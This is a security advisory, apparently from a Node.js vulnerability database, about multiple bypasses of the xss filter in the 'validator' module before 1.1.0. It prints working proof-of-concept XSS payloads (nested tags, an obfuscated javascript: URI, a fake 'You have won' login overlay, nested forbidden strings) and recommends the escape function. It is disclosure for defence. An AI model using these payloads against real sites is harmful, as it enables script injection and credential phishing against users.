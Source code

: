 ```yaml
---
title:  Multiple XSS Filter Bypasses
author:  Neal Poole, Krzysztof Kotowicz
module_name: validator
publish_date: Fri Jul 05 2013 12:29:10 GMT-0700 (PDT)
cves: "[]"
vulnerable_versions: "< 1.1.0"
patched_versions: ">= 1.1.0"
...
```


## Overview:
The validator module for Node.js contains functionality meant to filter potential XSS attacks (a filter called xss). Several ways to bypass the filter were discovered. In general, because the function’s filtering is blacklist-based it is likely that other bypasses will be discovered in the future. Developers are encouraged not to use the xss filter function in this package.

### Details:
Various inputs that could bypass the filter were discovered:

Improper parsing of nested tags:

```
<s <onmouseover="alert(1)"> <;s onmouseover="alert(1)">This is a test</s>
```

Incomplete filtering of javascript: URIs:

```
<a href="javascriptJ a V a S c R iPt::alert(1)" "<s>">test</a>
```

UI Redressing:

```
<div style="z-index: 9999999; background-color: green; width: 100%; height: 100%">
<h1>You have won</h1>Please click the link and enter your login details:
<a href="http://example.com/">http://good.com</a>
</div>
```

Bypass via Nested Forbidden Strings:

```
<scrRedirecRedirect 302t 302ipt type="text/javascript">prompt(1);</scrRedirecRedirect 302t 302ipt>
```

Additional bypasses were discovered by Krzysztof Kotowicz in 2012 when auditing CodeIgniter's XSS filtering function, which this code was based off of.

## Recommendations:
If you are a developer currently using the xss filter function from the validator package, you should consider replacing it with the escape filter function from the same package. This function replaces all instances of angle brackets (<, >), ampersands, and quotation marks, so no HTML tags will be processed.

## References:

- [XSS Filter Bypass in validator Node.js Module](https://nealpoole.com/blog/2013/07/xss-filter-bypass-in-validator-nodejs-module/)
- [CodeIgniter <= 2.1.1 xss_clean() Cross Site Scripting filter bypass](http://blog.kotowicz.net/2012/07/codeigniter-210-xssclean-cross-site.html)


